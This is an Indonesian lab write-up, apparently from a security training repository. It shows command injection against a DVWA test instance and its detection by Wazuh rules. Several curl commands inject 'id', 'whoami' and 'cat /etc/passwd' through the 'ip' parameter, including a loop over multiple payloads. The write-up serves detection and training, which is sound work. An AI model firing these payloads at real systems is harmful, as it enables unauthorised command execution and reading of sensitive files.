








# Command Injection Attack

## Deskripsi
Command Injection memungkinkan attacker menjalankan perintah OS
melalui input aplikasi web yang tidak divalidasi. Serangan ini
dapat digunakan untuk membaca file sensitif, menjalankan reverse
shell, atau mengambil alih sistem target.

## MITRE ATT&CK
- Tactic: Execution
- Technique: T1059 — Command and Scripting Interpreter

## Target
- URL: `http://192.168.217.130/DVWA/vulnerabilities/exec/`
- Parameter: `ip`

## Persiapan
```bash
SESS="security=low; PHPSESSID=ISI_SESSION_DISINI"
```


## Attack Commands

### 1. Basic Command Injection — id
```bash
curl -s "http://192.168.217.130/DVWA/vulnerabilities/exec/?ip=127.0.0.1%3Bid&Submit=Submit" \
  -b "$SESS" -o /dev/null -w "Status: %{http_code}\n"
```


---

### 2. Baca File Sensitif `/etc/passwd`
```bash
curl -s "http://192.168.217.130/DVWA/vulnerabilities/exec/?ip=127.0.0.1%3Bcat+/etc/passwd&Submit=Submit" \
  -b "$SESS" -o /dev/null -w "Status: %{http_code}\n"
```


---

### 3. Verifikasi Output uid di Response
```bash
curl -s "http://192.168.217.130/DVWA/vulnerabilities/exec/?ip=127.0.0.1%3Bid&Submit=Submit" \
  -b "$SESS" | grep -A 2 "uid="
```


---

### 4. Multiple Payload — Trigger Wazuh Detection
```bash
PAYLOADS=(
  "127.0.0.1%3Bid"
  "127.0.0.1%3Bwhoami"
  "127.0.0.1%3Bls"
  "127.0.0.1%7Ccat+/etc/passwd"
  "127.0.0.1%3Buname+-a"
)

for payload in "${PAYLOADS[@]}"; do
  curl -s "http://192.168.217.130/DVWA/vulnerabilities/exec/?ip=${payload}&Submit=Submit" \
    -b "$SESS" -o /dev/null -w "Payload: ${payload} - Status: %{http_code}\n"
  sleep 1
done
```


---

## Hasil Serangan di Browser

> Perintah `id` berhasil dieksekusi, output menampilkan
> `uid=33(www-data)` membuktikan command injection berhasil.

---

## Detection di Wazuh

### Rule 100013 — DVWA: Command Injection terdeteksi

> Rule **100013** berhasil mendeteksi serangan dengan level **12 (High)**.

### Rule 100051 — Command Injection via Auditd

> Rule **100051** mendeteksi eksekusi `/usr/bin/cat` oleh proses web server.

---

## Detection Summary
- Rule ID: `100013` — Level: `12` (High) — Source: Nginx log
- Rule ID: `100051` — Level: `12` (High) — Source: Auditd
- Rule Chain: `100008` → `100013`

## Referensi
- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [MITRE T1059](https://attack.mitre.org/techniques/T1059/)
